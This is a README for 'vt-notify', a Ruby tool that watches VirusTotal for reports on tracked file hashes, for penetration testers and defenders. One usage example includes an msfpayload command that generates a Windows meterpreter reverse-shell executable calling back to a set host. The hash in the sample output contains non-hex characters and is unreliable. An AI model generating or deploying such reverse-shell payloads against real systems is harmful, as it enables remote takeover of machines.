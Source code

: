 
Virus Total Notifier
=========

This project was originally created to notify the user when Virus Total had a report for a specific binary (i.e. one used in a penetration test or otherwise) the penetration tester could be notified via log or email. It runs in an infinite loop and does not check files or hashes that have already been detected by the program; It does, however, continue to re-check hashes that haven't been detected.

This program can also be used as a detection mechanism. Target it towards your web-root or other sensitive directory and it will notify you when anything that has a report on Virus Total is added to your directory.

The script doesn't have anything OS specific in it, so it should be portable anywhere Ruby is installed.


Usage
========

```
Usage: vt-notify [options]
	-e EMAIL // email address of who to notify upon detection
	-m SMTPSERVER // smtp server to relay email through
	-s FILENAME // binary file to track
	-S SHA1 // single SHA1 hash to track
	-f FILENAME // file contaning SHA1 hashes to track
	-d DIRECTORY // directory of binary files to track
	-a APIKEYFILENAME // file contianing API key hash on first line, defaults to apikey.txt
	-l LOGFILENAME // file to write/read positive entries to/from, defaults to results.log
	-i INTERVAL // how often VT is checked, defaults to every 10 minutes
	-h // this useful help text
```

For example, the following takes all 500+ files in the hackarmoury repository, SHA1 hashes them and checks them against Virus Total. The ones that have been submitted (even those that have a 0 detection rate) are reported via email to justanotheruser@gmail.com via the Gmail email servers. 
```
./vt-notify.rb -d /opt/hackarmoury/ -e justanotheruser@gmail.com -m gmail-smtp-in.l.google.com
```

Another example is taking a freshly generated 'evil.exe' from Metasploit:
```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.92.100 X > evil.exe
```
And setting up vt-notify to just check on it, with the notifications going to the same gmail account, checking every 20 seconds:
```
./vt-notify.rb -s evil.exe -e justanotheruser@gmail.com -m gmail-smtp-in.l.google.com -i 20
```
Then, acting as the incident responder, I upload the "found" malware to Virus Total and almost instantly:
```
======================================
            RESULTS                   
======================================
Checked:     1
Not found:   1
Found:       0

check complete, sleeping for 20 seconds
4f4c103911eff1668199ff7fbce5e87rae1hee0d was found 35 out of 46 on 2012-12-28 08:29:59
======================================
            RESULTS                   
======================================
Checked:     1
Not found:   0
Found:       1
```
Hash lists are also supported in hash-per-line files (-f) and single SHA1 (-S), however I don't have the ability to support multiple singles on the command line (-S) or (-s)

### Credits
Credit to [@mubix](https://github.com/mubix) for the original vt-notify script  
Credit to [@ashtinblanchard](https://github.com/AshtinBlanchard) for bringing it forward
